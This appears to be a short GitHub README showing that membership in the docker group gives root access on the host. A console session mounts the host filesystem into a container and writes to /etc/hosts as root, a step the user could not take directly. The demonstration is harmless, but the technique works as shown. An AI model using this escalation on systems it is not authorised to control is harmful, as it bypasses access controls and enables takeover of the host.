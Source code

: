 # dockerPrivilegeEscalation

It shows how to get root privileges if you may run docker containers (participating in docker group)

## Backstory
By default docker is installed on OS without special configuring. If you would like to run docker containers without sudo you should be in docker group.

## Privilege Escalation
So participating in docker group allows to **get root privileges**.  
See console commands below:  
```console
[coder@coder-srv ~]$ id
uid=1000(coder) gid=1000(coder) groups=1000(coder),994(docker)
[coder@coder-srv ~]$ echo 2 >> /etc/hosts
-bash: /etc/hosts: Permission denied
[coder@coder-srv ~]$ tail -n 2 /etc/hosts
::1         localhost localhost.localdomain localhost6 localhost6.localdomain6
127.0.0.1   coder-srv
[coder@coder-srv ~]$ docker run --mount type=bind,source=/,target=/host -it ubuntu bash
root@23071637cb99:/# echo 2 >> /host/etc/hosts
root@23071637cb99:/# exit
exit
[coder@coder-srv ~]$ tail -n 2 /etc/hosts
127.0.0.1   coder-srv
2
```
